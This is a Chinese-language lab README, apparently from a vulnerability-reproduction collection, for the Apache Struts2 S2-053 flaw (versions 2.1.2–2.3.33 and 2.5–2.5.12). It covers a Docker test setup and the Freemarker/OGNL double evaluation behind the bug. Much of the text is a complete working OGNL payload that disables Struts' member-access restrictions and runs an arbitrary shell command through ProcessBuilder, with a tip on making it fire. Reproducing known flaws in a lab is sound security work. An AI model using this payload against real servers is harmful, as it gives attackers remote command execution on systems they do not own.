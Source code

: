 # S2-053 远程代码执行漏洞

影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情: 

 - http://struts.apache.org/docs/s2-053.html
 - https://mp.weixin.qq.com/s?__biz=MzU0NTI4MDQwMQ==&mid=2247483663&idx=1&sn=6304e1469f23c33728ab5c73692b675e

## 测试环境搭建

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080/hello.action`即可看到一个提交页面。

## 漏洞复现

Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

输入如下Payload即可成功执行命令：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

![](01.png)

说明：有的同学说无法复现漏洞，经过我的测试，我发现上述Payload末尾的**换行**不能掉（也就是说payload后面必须跟一个换行，虽然我也不知道为什么），再发送即可成功。
